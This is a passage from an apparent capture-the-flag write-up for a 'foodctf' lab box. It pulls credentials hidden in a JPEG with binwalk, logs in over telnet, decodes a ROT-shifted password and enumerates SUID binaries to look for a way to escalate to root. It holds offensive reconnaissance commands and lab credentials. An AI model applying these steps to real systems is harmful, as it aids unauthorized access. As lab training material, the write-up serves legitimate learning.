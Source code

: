 ```bash

binwalk -e  foodctf.jpeg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
381172        0x5D0F4         gzip compressed data, from Unix, last modified: 2020-03-19 23:53:20

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented


┌──(kali㉿kali)-[~]
└─$ cd _foodctf.jpeg.extracted

┌──(kali㉿kali)-[~/_foodctf.jpeg.extracted]
└─$ ls
5D0F4  5D0F4.gz

┌──(kali㉿kali)-[~/_foodctf.jpeg.extracted]
└─$ cat 5D0F4
creds.txt0000644000000000000000000000002513634770536011430 0ustar  rootrootpasta:pastaisdynamic


```
So we know img hidding something  and we got some credentials (pasta:pastaisdynamic)
`telnet <IP>:46969` using new credentials to it
```bash
telnet 10.10.220.196 46969
Trying 10.10.220.196...
Connected to 10.10.220.196.
Escape character is '^]'.
tccr:uwjsasqccywsg
foodctf login:
Login timed out after 60 seconds.
Connection closed by foreign host.

```
We see a credential it could be ROT13 but it not and we shift it to ROT14 and me got food:givemecookies and all credentials cant run sudo so we find another way to escalation shell.
```bash
find / -uid 0 -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/vim.basic
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/screen-4.5.0
/usr/bin/chfn

/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/telnetlogin
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
```